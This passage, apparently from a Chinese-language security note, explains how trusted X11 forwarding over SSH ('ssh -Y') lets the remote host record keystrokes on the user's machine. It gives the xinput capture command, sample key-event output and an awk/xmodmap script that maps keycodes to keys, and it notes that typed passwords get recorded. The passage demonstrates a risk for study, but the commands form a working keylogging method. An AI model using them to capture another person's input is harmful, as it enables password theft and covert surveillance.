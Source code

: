 如果用户输入了密码，那么将会被记录下来

### 测试

参考：

https://unix.stackexchange.com/questions/129159/record-every-keystroke-and-store-in-a-file

host A作为remote host（x client），且在sshd_config配置了X11Forwarding

host B作为x server，使用如下命令连接host A

```
cpl in /etc/ssh λ ssh -Yp 65522  cz@hostA
```

这里需要注意的是必须使用`-Y`，如果使用`-X`或是ForwardX11会有安全限制无法使用xinput。

我们在host B上执行如下命令

```
cz@gns3vm:~$ exec xinput test 15 > file
```

就可以在host A上看到在B上按下的键

```
cz@gns3vm:~$ cat file
key press   36 
key release 36 
key press   36 
key release 36 
key press   36 
```

如果想要获取key对应键盘上的键可以使用如下脚本

```
cz@gns3vm:~$ cat file | awk 'BEGIN{while (("xmodmap -pke" | getline) > 0) k[$2]=$4}
>      {print $0 "[" k[$NF] "]"}'
```

